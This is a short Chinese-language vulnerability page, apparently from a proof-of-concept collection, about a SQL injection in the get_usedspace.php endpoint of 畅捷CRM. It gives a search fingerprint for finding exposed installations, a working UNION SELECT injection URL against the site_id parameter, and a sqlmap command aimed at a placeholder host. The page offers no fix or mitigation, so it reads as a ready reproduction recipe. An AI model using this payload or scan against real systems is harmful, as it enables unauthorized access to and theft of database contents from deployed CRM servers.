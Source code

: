# 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>畅捷CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="畅捷CRM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1633506073821-57c99e5c-e655-49d0-a6de-845e13e971f8.png)

验证POC

```php
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![img](../../../.vuepress/public/img/1633511742259-b57303f1-0530-477e-a86f-8a403927fe15.png)

使用Sqlmap验证漏洞

```php
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```

![img](../../../.vuepress/public/img/1633511844026-09d2cb14-ca2e-4c20-be83-f634144393e2.png)